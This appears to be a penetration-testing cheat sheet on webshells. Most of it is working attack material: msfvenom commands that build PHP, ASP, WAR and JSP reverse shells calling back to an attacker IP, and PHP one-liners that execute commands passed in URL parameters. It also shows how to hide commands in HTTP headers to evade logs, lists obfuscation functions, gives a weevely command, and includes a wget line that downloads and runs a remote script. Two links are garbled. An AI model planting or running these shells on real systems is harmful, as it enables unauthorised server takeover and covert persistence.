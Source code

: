 # Webshells

## Built in List with Kali Linux

```bash
ls -la /usr/share/webshells
```

## Simple HTTP Server with Upload

```
# wget one liner
wget https://gist.githubusercontent.com/UniIsland/3346170/raw/059aca1d510c615df3d9fedafabac4d538ebe352/SimpleHTTPServerWithUpload.py ; chmod +x SimpleHTTPServerWithUpload.py; ./SimpleHTTPServerWithUpload.py

# git link
https://gist.github.com/UniIsland/3346170
```

## Reverse-Shells

* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/shells/reverse-sthe hell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Webshells - Platform Independent

* a webshell is a shell that you can access through the web
* useful for when you have firewalls that filter outgoing traffic on ports other than port 80
* more stealthy since the traffic is hidden in the http traffic.

## PHP

### This PHP-shell is OS-Independent. Inject into Pages that Use PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### Execute One Command

```bash
<?php system("whoami"); ?>
```

### Take Input from the URL Parameter... shell.php?cmd=whoami

```bash
<?php system($_GET['cmd']); ?>
```

### The Same as Above but Using Passthru

```bash
<?php passthru($_GET['cmd']); ?>
```

### For shell\_exec to Output the Result, Echo it

```bash
<?php echo shell_exec("whoami");?>
```

### Return the Output as an Array, and then Print it All

```bash
<?php exec("ls -la",$array); print_r($array); ?>
```

### This is a Cool Trick

```bash
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

### Using Backticks

```bash
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

```bash
<?php `echo whoami`; ?>
```

### Execute the Commands Like This

```bash
[http://192.168.1.103/index.php?cmd=pwd](http://192.168.1.103/index.php?cmd=pwd)
```

## ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

## WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

## Access to Different Webshells on Kali

```bash
/usr/share/webshells
```

## Make it Stealthy

* we can make the commands from above a bit more stealthy
* instead of passing the cmds through the url, which will be obvious in logs, we pass them through other header-paramters
* tampterdata, burpsuit, netcat or curl to insert the commands

```bash
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

```bash
<?php system($_SERVER['HTTP_USER_AGENT'])?>
```

```bash
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

## Obfuscation

### The Following Functions Can be Used to Obfuscate the Code

```bash
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

## Weevely - Incredible tool!

* weevely can create php webshells easily
* weevely generates password /root/webshell.php

### Now Execute it and Get a Shell in Return

```bash
weevely "[http://192.168.1.101/webshell.php](http://192.168.1.101/webshell.php)" password
```

## References

* [http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/](http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
* [http://www.binarytides.com/web-shells-tutorial/](http://www.binarytides.com/web-shells-tutorial/^stage)
